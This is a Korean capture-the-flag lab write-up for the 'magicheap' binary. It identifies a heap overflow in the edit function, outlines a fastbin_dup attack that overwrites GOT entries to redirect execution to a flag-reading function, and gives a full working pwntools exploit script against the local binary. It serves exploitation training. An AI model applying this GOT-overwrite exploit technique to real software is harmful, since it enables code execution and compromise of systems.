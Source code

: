 # 문제
***

magicheap 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
magicheap: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ff750591e88f96896be63694b6ea85d337fce3a, not stripped
```

바이너리 코드

__create_heap()__
```c
unsigned __int64 create_heap()
{
  ...

  for ( i = 0; i <= 9; ++i )
  {
    if ( !heaparray[i] )
    {
      printf("Size of Heap : ");
      read(0, &buf, 8uLL);
      size = atoi(&buf);
      heaparray[i] = malloc(size);
      ...
      printf("Content of heap:", &buf);
      read_input(heaparray[i], size);
      puts("SuccessFul");
      return __readfsqword(0x28u) ^ v4;
    }
  }
  ...
}
```

__edit_heap()__
```c
unsigned __int64 edit_heap()
{
  ...
  printf("Index :");
  read(0, &buf, 4uLL);
  v2 = atoi(&buf);
  ...
  if ( heaparray[v2] )
  {
    printf("Size of Heap : ", &buf);
    read(0, &buf, 8uLL);
    v0 = atoi(&buf);
    printf("Content of heap : ", &buf);
    read_input(heaparray[v2], v0);
    puts("Done !");
  }
  ...
}
```

__delete_heap()__
```c
unsigned __int64 delete_heap()
{
  ...
  printf("Index :");
  read(0, &buf, 4uLL);
  v1 = atoi(&buf);
  ...
  if ( heaparray[v1] )
  {
    free(heaparray[v1]);
    heaparray[v1] = 0LL;
    puts("Done !");
  }
  ...
}
```

__edit_heap()__ 함수에서 overflow 취약점이 존재한다. 이를 통해서 다음 chunk의 header, fd, bk 등을 overwrite할 수 있다.
<br/>
이를 통해서 lab12 문제를 풀 때 사용했던 fastbin_dup 공격이 가능하다.
<br/>

## exploit 방법
1. 0x40 짜리 chunk를 3개 생성한다.
2. 세 번째 chunk와 두 번쨰 chunk를 free한다.
3. __edit_heap()__ 함수를 이용해서 두 번째 chunk의 fd를 (stack_chk_got -6)로 덮어쓴다.
4. 0x30 짜리 chunk를 2개 생성하면 두 번째 chunk의 주소가 (stack_chk_got + 10 )이 된다. 
5. printf의 got를 flag를 읽는 __l33t()__ 함수의 주소로 덮어쓴다.

<br/><br/>

__문제 해설에서는 unsorted bin attack을 이용했다. 이 공격에 대해서 대략적인 이해만 했다. 다음에 fake arena 생성 방법에 대해서 공부해보자.__

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def create_heap(size,content):
	p.recvuntil("choice :")
	p.send("1"+"\x00")
	p.recvuntil("Heap : ")
	p.send(str(size))
	p.recvuntil("heap:")
	p.send(content)
	p.recvuntil("SuccessFul\n")

def edit_heap(index,size,content):
	p.recvuntil("choice :")
        p.send("2"+"\x00")
	p.recvuntil("Index :")
	p.send(index)
	p.recvuntil("Heap : ")
	p.send(str(size))
	p.recvuntil("heap : ")
	p.send(content)
	p.recvuntil("!\n")

def delete_heap(index):
	p.recvuntil("choice :")
	p.send("3"+"\x00")
	p.recvuntil("Index :")
	p.send(index)
	p.recvuntil("!\n")

file_path="/home/sungyun/round4/lab14/magicheap"

p=process(file_path)

stack_chk_got=0x602030
cat_flag=0x400c23


create_heap(0x30,"ha_weeeee^___^")
create_heap(0x30,"ba_weeeee^___^")
create_heap(0x30,"weeeee^___^")

delete_heap("2")
delete_heap("1")

pay="A"*0x30
pay+="\x00"*8
pay+="\x41"+"\x00"*7
pay+=p64(stack_chk_got-6)

edit_heap("0",len(pay),pay)

create_heap(0x30,"g00000000d")
create_heap(0x30,"sosim")

pay2="\x40"+"\x00"*5 #system
pay2+=p64(cat_flag)

edit_heap("2",len(pay2),pay2)

p.recvuntil("-\n")
p.recvuntil("-\n")
p.recvuntil("-\n")

print p.recv()
```

